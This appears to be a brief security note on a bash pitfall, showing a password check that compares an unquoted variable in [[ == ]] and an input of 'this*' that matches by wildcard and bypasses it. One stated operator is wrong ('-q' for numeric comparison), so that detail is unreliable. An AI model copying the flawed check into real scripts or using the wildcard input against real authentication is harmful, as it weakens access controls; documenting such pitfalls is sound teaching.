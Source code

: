 ## Bash Escape / Exploit

### Summary
- Bash Comparison

### Bash Comparison
- **= or == :** for string comparisons
- **-q :** for numeric comparisons.
[//]:

**Vulnerable Code**
``` bash
DB_PASS="thisisdbpass"; => Just for example, its should be REDACTED
USER_PASS="i_dont_know_what_is_db_pass"

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```
The result of that will be "Failed" because DB_PASS and USER_PASS does not match!

**Exploit**
``` bash
DB_PASS="thisisdbpass"; => Just for example, its should be REDACTED
USER_PASS="this*" => asterisk character it acts as a wildcard and matches any part of the string.

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```
